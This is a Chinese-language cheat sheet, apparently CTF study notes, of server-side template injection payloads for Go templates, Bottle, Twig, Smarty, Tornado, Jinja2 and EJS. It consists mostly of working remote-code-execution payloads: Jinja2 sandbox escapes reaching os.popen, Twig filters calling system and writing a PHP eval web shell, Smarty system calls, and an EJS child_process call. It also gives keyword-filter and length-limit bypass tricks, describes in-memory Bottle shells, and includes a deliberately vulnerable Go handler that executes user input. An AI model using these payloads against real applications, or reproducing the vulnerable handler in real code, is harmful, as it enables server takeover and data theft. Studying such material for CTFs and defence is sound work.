


## go模板注入

```go
func dangerous(args string) string {
	cmd := exec.Command(args)
	out, _ := cmd.Output()
	return string(out)
}

func sstiHandler(w http.ResponseWriter, r *http.Request) {
	funcMap := template.FuncMap{
		"danger": dangerous,
	}
	userInput := r.URL.Query().Get("input")
	tmpl, err := template.New("test").Funcs(funcMap).Parse(userInput)
	if err != nil {
		http.Error(w, "Template parsing error", http.StatusInternalServerError)
		return
	}
	tmpl.Execute(w, funcMap)
}
```

输入`{{.}}`获得funcMap, `{{danger "ls"}}`命令执行

## bottle

bottle 可以直接通过 `% python—code `或 `<% %>`执行, 但无回显，可以反弹shell或者打内存马
通过abort可以直接回显

```payload
%__import__('bottle').abort(404,__import__(%27os%27).popen('env').read())
```


[bottle文档](https://www.osgeo.cn/bottle/stpl.html)

[bottle模板注入以及内存马](https://xz.aliyun.com/news/16942)
[bottle内存马](https://forum.butian.net/share/4048)

需要注意原来的app是怎么运行的，
方式1：

```python
app = bottle.Bottle()
app.run
```

这时直接app.route("/shell","GET",lambda:...)
也可以app.add_hook(...)
方式2：

```python
bottle.run
```

这时直接bottle.route修改路由可行
但是没有add_hook, 想执行bottle.Bottle().add_hook能执行,但是没有效果

## twig模板注入

https://xz.aliyun.com/news/9506

1. 1.x版本payload: `{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("echo '<?=@eval($_POST[1]);?>' > flag.php")}}`
2. 2.x/3.x 版本payload：`{{["ls"]|map("system")}}`或者`{{["id"]|filter("system")}}`或者`{{["id", 0]|sort("system")}}`或者`{{[0, 0]|reduce("exec", "id")}}`

## smarty模板注入

https://xz.aliyun.com/t/12220

[奇安信攻防社区-Smarty模板引擎漏洞详解](assets/SSTI模版注入/奇安信攻防社区-Smarty模板引擎漏洞详解.html)
smarty还有一些可以RCE的CVE

曾经用到的方法：

1. {if PHP代码}{/if}
   如 {if system('cat /flag')}{/if}

## python模板注入漏洞

## tornado

{{handler.settings}}

## jinja

[各种过滤](https://xz.aliyun.com/news/6481)
`__globals__['os']`可以用`__globals__.os`直接代替,省去了中括号引号
{{config}}获取配置
[配置被手动置为none](https://buuoj.cn/challenges#[WesternCTF2018]shrine)时，可以从其他的地方访问config，由于他们不会被同时置为none，因此还保留原有配置。
payload:
`{{self.__dict__}}`
`{{url_for.__globals__['current_app'].config}}`
`{{get_flashed_messages.__globals__['current_app'].config}}`

### 新姿势

    可以直接用undefined这个类，而且里面有很多可用函数，如

`{{a.__init__.__globals__.__builtins__.eval(\"__\\x69mport__('o'+'s').popen('ls /').read()\")}}`
`self['__in''it__']['__glo''bals__']['__buil''tins__']['__impo''rt__']('o''s').popen('ls;ls /;nl /flag').read()`
`c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')`
`c.__init__.__globals__['__builtins__'].open('fla'+'g','r').read()`
，甚至不用找可用的类……
**常见payload**

1. `{{''.__class__.__mro__[-1].__subclasses__()[71].__init__.__globals__['o'+'s'].popen('ls').read()}}`
2. `{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')}}`
3. `{{''.__class__.__mro__[-1].__subclasses__()[40]("fl4g").read()}}`，其中[40]是file类
4. `''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['__builtins__']['eval'](\"__\\x69mport__('os').popen('cat+/flag').read()\")`
   132指warnings.catch_warnings，因为他是一个python写的类，所以**init**有**globals**属性，可以访问到全局变量
5. `[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__=="_wrap_close"][0]["system"]("ls")`

当request没被过滤时,用request绕过

**原理解释**

Python复制

```python
def test():
    id = request.args.get('id')
    html = '<h3>%s</h3>'%(id)
    return render_template_string(html)
```

某些渲染器如python-jinja会将`{{}}`内包围的内容视为变量，因此会先计算变量（本质上就是执行），因此可以在`{{}}`中写入想要执行的代码，这里的参数id可能比较特殊，参数值直接写在当前目录下就行。

接下来就要找到os模块，利用popen函数来获取文件内容（popen用于执行命令，将执行结果输入到文件中，并返回这个文件对象）。

`__class__` 用于访问当前类，`__mro__` 访问当前类的基类，最后一个一般是object类，是所有类的基类，`__subclasses__()`方法返回基于当前类的所有之类，到这里可以得到所有可以用到的类，[71]中的数字可以用爆破的方式`{{url/"".__class__.__mro__[-1].__subclasses__()[71].__init__.__globals__['os']}}`得到，目的是得到一个包含了，`__init__.__globals__`可以获得该类所在模块中的所有用到的全局变量，包括在该模块中引用的模块，返回类型是字典。

### 自动化工具

fenjing

### 过滤

过滤关键词，如`os, eval`,可以用字符串拼接绕过
如`['ev'+'al']`

引号内的字符还可以使用hex或unicode编码绕过
如`['eval'] --> ['\x65val']`
由于python会对字符串自动转义一次,写\x65 等于写 e,因此要写成`['\\x65val']`,这样真正发送的才是\x65

### 长度限制

[文章](https://blog.csdn.net/weixin_43995419/article/details/126811287)

利用config保存，set设置，逐步简短最终payload

```




{{config.d('ls /').read()}}
{{config.d('cat /f*').read()}}
```

## ejs

```js
process.mainModule
  .require("child_process")
  .execSync("whoami", { encoding: "utf-8" });
```
